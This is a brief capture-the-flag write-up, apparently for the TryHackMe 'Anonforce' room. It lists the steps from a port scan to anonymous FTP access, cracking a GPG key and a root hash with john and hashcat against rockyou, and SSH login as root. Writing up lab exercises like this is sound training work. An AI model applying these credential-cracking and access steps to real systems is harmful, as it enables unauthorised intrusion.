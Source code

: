 ```yaml
---
date: 2024-06-19
author: mrashco
title: Anonforce
tags: ["", ""]
---
```


Enumeration
- rustscan -a $ip, 21:ftp 22:ssh
- ftp $ip, anonymous
- user = m*******
- get user.txt
- cat ~/user.txt
- get /notread/*

Hash
- `gpg2john private.asc > private.hash`
- `john --wordlist=/rockyou.txt private.hash`
- x******
- `gpg` [🔗](https://www.reddit.com/r/GnuPG/comments/mibwbv/i_have_an_elg_private_key_how_do_i_use_it_to/) [🔗](https://en.wikipedia.org/wiki/Pretty_Good_Privacy) 
- `gpg -d backup.pgp`
- nano root.hash
- `hashcat root.hash rockyou.txt`
- h*****

SSH
- `ssh root@$ip`

{{< youtubeLite id="viY-a3B1ItQ" label="tryhackme ANONFORCE walkthrough writeup" >}}
